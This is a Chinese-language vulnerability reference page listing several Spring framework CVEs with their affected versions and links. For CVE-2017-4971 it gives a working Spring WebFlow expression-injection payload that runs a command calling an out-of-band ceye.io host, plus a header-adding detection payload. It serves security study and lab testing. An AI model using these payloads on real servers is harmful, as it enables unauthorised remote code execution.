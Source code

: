 ### [](#CVE-2016-6652-Spring-Data-JPA-SQL盲注 "CVE-2016-6652 Spring Data JPA SQL盲注")CVE-2016-6652 Spring Data JPA SQL盲注

影响版本：Spring Data JPA 1.10.2、1.9.4

[https://www.seebug.org/vuldb/ssvid-92534](https://www.seebug.org/vuldb/ssvid-92534)

### [](#CVE-2017-4971-Spring-WebFlow-远程代码执行漏洞 "CVE-2017-4971 Spring WebFlow 远程代码执行漏洞")CVE-2017-4971 Spring WebFlow 远程代码执行漏洞

影响版本：Spring Web Flow 2.4.0 to 2.4.4

使用vulhub搭建环境后，在添加poc执行

```


1.  `&_(new+java.lang.ProcessBuilder("ping","xxx.ceye.io")).start()=vulhub`


```

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2024/1/458c35d0-9e07-4e1c-a0a4-ea2241092e6d.png?raw=true)

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2024/1/87c68746-9605-4f98-a23d-c7c78ffcb555.png?raw=true)

无害化payload检测，如果 response header 中出现 vulnerable 头，则有漏洞：

```


1.  `&_T(org.springframework.web.context.request.RequestContextHolder).getRequestAttributes().getResponse().addHeader("vulnerable","True").aaa=n1nty`


```

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2024/1/0e75a7c3-6e46-4aa0-af96-28a7f356c169.png?raw=true)

### [](#CVE-2017-8045-Spring-Amqp中的远程代码执行 "CVE-2017-8045 Spring Amqp中的远程代码执行")CVE-2017-8045 Spring Amqp中的远程代码执行

影响版本：1.7.4、1.6.11和1.5.7之前的Spring AMQP版本

[https://xz.aliyun.com/t/36](https://xz.aliyun.com/t/36)

### [](#CVE-2017-8046-Spring-Data-REST-PATCH请求远程执行代码 "CVE-2017-8046 Spring Data REST PATCH请求远程执行代码")CVE-2017-8046 Spring Data REST PATCH请求远程执行代码

影响版本：Spring Data REST 2.5.12, 2.6.7, 3.0 RC3之前的版本、Spring Data release trains Kay-RC3之前的版本、Spring Boot 2.0.0M4之前的版本

[https://www.cnblogs.com/co10rway/p/9380441.html](https://www.cnblogs.com/co10rway/p/9380441.html)
